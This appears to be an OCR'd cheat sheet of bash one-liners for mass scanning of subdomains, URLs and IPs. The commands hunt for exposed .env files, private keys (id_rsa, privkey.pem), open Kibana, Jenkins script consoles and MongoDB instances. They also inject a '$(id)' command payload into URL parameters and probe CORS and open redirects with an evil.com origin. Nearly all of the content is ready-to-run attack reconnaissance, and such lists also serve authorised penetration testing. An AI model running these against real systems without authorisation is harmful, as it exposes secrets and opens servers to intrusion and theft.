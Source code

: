 🔥  Open Kibana (Cloud Misconfiguration)
```bash
cat subdomains.txt | httpx -silent -path /app/kibana -mc 200 -o open_kibana.txt
```

📤  Exposed Env Files (Secrets Disclosure)
```bash
cat subdomains.txt | httpx -silent -path /.env -mc 200 -o exposed_env.txt
```

🗂️  Directory Listing Enabled (Info Disclosure)
```bash
cat subdomains.txt | httpx -silent -path / -fr 'Index of /' -o dir_listing.txt
```

💉  Command Injection via Input Parameters
```bash
cat urls.txt | qsreplace '$(id)' | httpx -silent -fr 'uid=' -o command_injection.txt
```

🪄  CORS Misconfiguration Check (Origin Reflection)
```bash
cat urls.txt | httpx -silent -H 'Origin: https://evil.com' -fr 'https://evil.com' -o cors_misconfig.txt
```

🔗  Open Redirect (URL Parameter Test)
```bash
cat urls.txt | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -o open_redirect.txt
```

Backup/Old Files Exposure
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/index.php~\n/config.old\n/database.bak') -mc 200 -o exposed_backup_files.txt
```

🕵️  Clickjacking (Missing X-Frame-Options)
```bash
cat subdomains.txt | httpx -silent -hx -o headers.txt
cat headers.txt | grep -E "x-frame-options|X-Frame-Options" -i -L > clickjacking_vulnerable.txt
```

⚙️  Misconfigured Jenkins Instances
```bash
cat subdomains.txt | httpx -silent -path /script -mc 200 -o exposed_jenkins.txt
```

💾  Open MongoDB Instances (Cloud Exposure)
```bash
cat ips.txt | xargs -I{} sh -c 'echo {} && mongosh --host {} --eval "db.stats()"' 2>/dev/null | tee open_mongodb.txt
```

Exposed Private Keys (Accidental Disclosure)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/id_rsa\n/keys/privkey.pem\n/.ssh/id_rsa') -mc 200 -o exposed_keys.txt
```
